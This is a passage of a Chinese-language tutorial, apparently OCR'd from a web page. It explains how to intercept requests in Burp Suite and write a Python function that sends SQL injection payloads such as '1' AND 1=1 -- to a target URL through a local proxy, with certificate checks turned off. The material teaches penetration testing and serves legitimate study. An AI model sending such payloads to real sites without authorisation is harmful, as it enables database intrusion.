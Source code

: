 ##### (2)发送请求并通过Burp Suite拦截

- 拦截请求
  - 在Burp Suite中，选择“Proxy”选项卡，然后选择“Intercept”子选项卡。
  - 确保“Intercept is on”选项被选中，这样Burp Suite会拦截所有通过它的请求。

- 发送请求

**以下是书写Python代码的步骤**



**(1)代理服务器配置**

proxies字典定义了HTTP和HTTPS代理服务器的地址。

~~~~python
proxies = {
    'http': 'http://127.0.0.1:8080',  # HTTP代理地址
    'https': 'http://127.0.0.1:8080'  # HTTPS代理地址
}  
~~~~



**(2) 函数定义**

~~~py
def test_with_proxy(url, payload):
~~~

定义了一个函数，用于通过代理服务器发送HTTP请求，并测试目标URL是否存在SQL注入漏洞。

url：目标URL，例如http://vuln-site.com/item。

payload：要注入的恶意负载，例如  '1' AND 1=1 --。



**(3)发送GET请求**

~~~python
 try:
        response = requests.get(
            url, 
            params={"id": payload}, 
            proxies=proxies, 
            verify=False )
~~~

params={"id": payload}： 将恶意负载作为参数传递。

proxies=proxies：指定使用代理服务器。

verify=False：忽略证书验证，适用于HTTPS请求。



**(4)异常处理**

~~~python
  try:
        response = requests.get(
            url, 
            params={"id": payload},
            proxies=proxies,
            verify=False)
        # 打印响应状态码和响应长度
        print(f"状态码: {response.status_code}, 响应长度: {len(response.text)}")
    except Exception as e:
        # 捕获并打印异常信息
        print(f"代理请求异常: {e}")
~~~
